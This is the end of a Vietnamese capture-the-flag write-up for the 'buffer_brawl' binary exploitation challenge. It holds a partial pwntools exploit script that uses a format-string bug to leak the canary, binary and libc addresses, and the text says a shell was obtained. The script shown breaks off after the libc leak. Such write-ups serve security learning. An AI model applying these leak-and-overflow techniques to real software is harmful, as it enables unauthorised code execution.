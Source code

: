 > ![{9E5567D7-3F69-4FE5-BBD3-AD6BC0B3209B}](https://hackmd.io/_uploads/B1afdc4sye.png)
> Vậy ta đã lấy được shell.

=> **Challenge hoàn thành**

## FULLSCRIPT
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('buffer_brawl_patched', checksec=False)
libc = ELF('libc.so.6', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*menu+172
        b*slip+41
        b*slip+51
        b*stack_check_up+132

        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

#Leak address by using choice 4 exsist format string bug
sla(b'> ',b'4')
sla(b'left?\n',f'%13$p%29$p%17$p'.encode())
data =rl().split(b'0x')
exe_leak = int(data[1],16)
libc_leak = int(data[2],16)
can = int(data[3],16)

exe.address = exe_leak - 0x1747
info('Exe leak: ' + hex(exe_leak))
info('Exe base: ' + hex(exe.address))
libc.address = libc_leak - 0x28150
info('Libc leak: ' + hex(libc_leak))
```